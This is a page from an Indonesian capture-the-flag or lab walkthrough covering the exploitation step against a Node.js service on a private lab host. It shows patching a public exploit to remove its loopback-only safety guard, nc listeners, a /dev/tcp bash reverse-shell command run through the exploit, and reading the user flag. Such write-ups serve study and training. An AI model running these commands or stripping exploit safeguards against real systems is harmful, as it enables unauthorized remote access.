

# Record Keeper (User) — Eksploitasi / Solver

[← Overview](17-record-keeper-user.md) · [Index](index.md)

> **Langkah 5/9 — Eksploitasi / Solver.** Patch yang diperlukan (dijelaskan di notes):
>
> **Titik penting:** python3 /tmp/opencode/probe23.py 10.10.20.23 3000 · python3 exploit/rce_worker.py --target 10.10.20.23 --port 3000 \ · git clone https://github.com/Arkango/CVE-2026-111497
>
> **Berikutnya:** [Output](17-record-keeper-user-06-output.md)

## 3.1 Strategi

1. Fingerprint Node.js 24.9.0 dan protokol frame.
2. Siapkan exploit `Arkango/CVE-2026-111497`.
3. Patch `rce_worker.py` agar mengizinkan target non-loopback dan
   `RCE_CMD` arbitrer.
4. Jalankan listener callback dan reverse shell.
5. Kirim exploit ke `10.10.20.23:3000`.
6. Dari shell `node`, baca `/home/node/user.txt`.

## 3.2 Langkah exploit

#### a) Siapkan tool

```bash
git clone https://github.com/Arkango/CVE-2026-111497
cd CVE-2026-111497
```

Patch yang diperlukan (dijelaskan di notes):

- `rce_worker.py` versi publik membatasi target ke loopback
  (`127.0.0.1`/`::1`/`localhost`). Untuk lab remote, guard itu dilonggarkan
  agar `--target 10.10.20.23` diterima.
- `RCE_CMD` dibuat bisa diisi dari environment, bukan hardcoded `id`.

Helper hasil patch di workspace: `/tmp/opencode/rce_worker_patched.py`.

#### b) Health check

```bash
python3 /tmp/opencode/probe23.py 10.10.20.23 3000
```

Probe mengirim frame kosong dan mengharapkan `PONG` (sesuai dokumentasi
console).

#### c) Listener

```bash
# callback exploit (token + output id)
nc -lvnp 4444

# reverse shell dari RCE_CMD
nc -lvnp 4445
```

#### d) Jalankan exploit

```bash
RCE_CMD='id;exec 4<>/dev/tcp/10.10.20.10/4445;bash -i <&4 >&4 2>&4' \
python3 exploit/rce_worker.py --target 10.10.20.23 --port 3000 \
  --callback-host 10.10.20.10 --callback-bind 0.0.0.0 \
  --callback-port 4444 --timeout 30
```

Parameter penting:

- `--target 10.10.20.23 --port 3000`: service record-transform.
- `--callback-host 10.10.20.10`: alamat bastion yang bisa dijangkau target.
- `--callback-bind 0.0.0.0 --callback-port 4444`: listener proof.
- `--timeout 30`: menunggu chain ROP dan callback.
- `RCE_CMD`: command yang dieksekusi via `execvp`; membuka shell interaktif.

Di sisi listener 4445:

```text
$ id
uid=1000(node) gid=1000(node) groups=1000(node)
```

#### e) Baca user flag

```bash
cat /home/node/user.txt
```

### Evidence langkah ini



*Terminal evidence — `02-cve-2026-111497.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-cve-2026-111497.txt`](assets/record-keeper-user/02-cve-2026-111497.txt)
